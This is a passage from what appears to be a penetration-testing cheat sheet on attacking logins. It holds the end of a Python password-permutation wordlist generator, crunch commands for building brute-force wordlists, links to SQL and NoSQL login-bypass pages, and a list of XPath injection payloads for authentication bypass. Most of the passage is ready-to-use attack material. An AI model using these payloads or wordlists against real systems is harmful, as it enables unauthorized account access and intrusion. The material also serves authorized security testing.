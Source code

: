     print("\\033[1;32m✅ Saving our work in [passwords.txt] WORDLIST..... \\033[0m")
    time.sleep(5)
    # Write the list of permutations to a file.
    count = 0
    with open('passwords.txt', 'w') as file:
        for password in permutations_list:
            file.write("".join(password) + "\\n")
            count += 1
    # print number of passwords generated
    print("\\033[1;32m[+] Number of possible passwords:\\033[0m", count)
    print("\\033[1;32m                                     🙌 THAT'S IT !,YOU'RE DONE                \\033[0m")
    ```

Or using tools like **Crunc**

```bash
crunch 4 6 0123456789ABCDEF -o crunch1.txt #From length 4 to 6 using that alphabet
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha # Only length 4 using charset mixalpha (inside file charset.lst)

@ Lower case alpha characters
, Upper case alpha characters
% Numeric characters
^ Special characters including spac
crunch 6 8 -t ,@@^^%%
```

#### **SQL Login Bypass**

[https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

#### **NoSQL authentication Bypass**

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

#### **XPath Injection authentication bypass**

```bash
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
